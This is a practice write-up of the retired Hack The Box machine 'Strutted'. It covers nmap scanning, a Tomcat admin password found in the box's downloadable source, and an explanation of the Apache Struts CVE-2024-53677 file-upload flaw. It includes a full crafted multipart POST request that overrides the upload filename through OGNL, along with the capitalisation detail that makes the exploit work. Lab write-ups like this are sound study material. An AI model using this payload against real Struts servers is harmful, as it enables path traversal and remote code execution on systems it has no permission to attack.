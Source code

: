 This is a retired Medium machine. Doing for practice!
# Init
Starting with `nmap`:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted]
└─$ sudo nmap -sC -sV -oA nmap/strutted 10.10.11.59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 04:18 EDT
Nmap scan report for 10.10.11.59
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```

So, `ssh` and `http` are running.  The website is some image upload and sharing site. You can download source code too!
![[Pasted image 20250902042657.png]]

Although, after uploading the image, you cannot "Copy Shareable Link"! The README in source code does instruct that you can access the image via `http:localhost:8080/s/{id}` where `id` is some unique identifier

We do get a id and password:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted/source_code]
└─$ cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

Looking at the source code, the MVC is (Apache) `Struts2` with version `6.3.0.1`.

As we can upload file, googling CVE for this version, there is [CVE-2024-53677](https://www.cve.org/CVERecord?id=CVE-2024-53677) which allows arbitrary path traversal and RCE. [POC](https://github.com/EQSTLab/CVE-2024-53677.git)

I tried the exploit in the above posts, but it does not work directly. The working of the exploit is also not straight forward. So, I look deeper into what causes the vulnerability and how can we craft our exploit. This post explains quite well: https://help.tanium.com/bundle/CVE-2024-31497/page/VERT/CVE-2024-53677/Understanding_Apache_Struts.htm.

We can have alook athe 

So, Struts has a series of Interceptor classes that run by default, including one called the `FileUploadInterceptor`. Struts has this concept of the object graph navigation library (OGNL), which has a stack. If there are two objects on the stack, and it allows referencing some property, say `name`, and that will work down the stack looking for the first object that has that property and return that.
If a POST request triggers the `FileUploadInterceptor`, you can have other POST parameters that reference parts of that object by the OGNL stack. In practice, that looks like:
```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------257100227792270914038585987
Content-Length: 518
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=B49FBC232ACDD342D2ABC2C6B7C0342D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="upload"; filename="Screenshot_20250902_042406.png"
Content-Type: image/png

PNG

IHDR-uijhlajkdhfaljfadf af;fda
-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="top.UploadFileName"

different.txt

helloworld
-----------------------------257100227792270914038585987--
```

The first form data parameter will be processed into an object by the `FileUploadInterceptor`. Then the second parameter is processed, setting the `UploadFileName` (Which an internal variable that Interceptor uses) for the top of the stack (the first parameter) to this new value. This trick allows for bypassing other rules put in place about where a file can be written, including directory traversals. This means the "filename" i.e. where file is written can be modifier. So we can modify it in such a way that it can be accessed by us via browser!
NOTE: One important thing to consider which I found after reading about custom payload, the first file upload needs to have `name=Upload` with an Upper case `U`. Otherwise this exploit does not work.
![[Pasted image 20250905175120.png]]




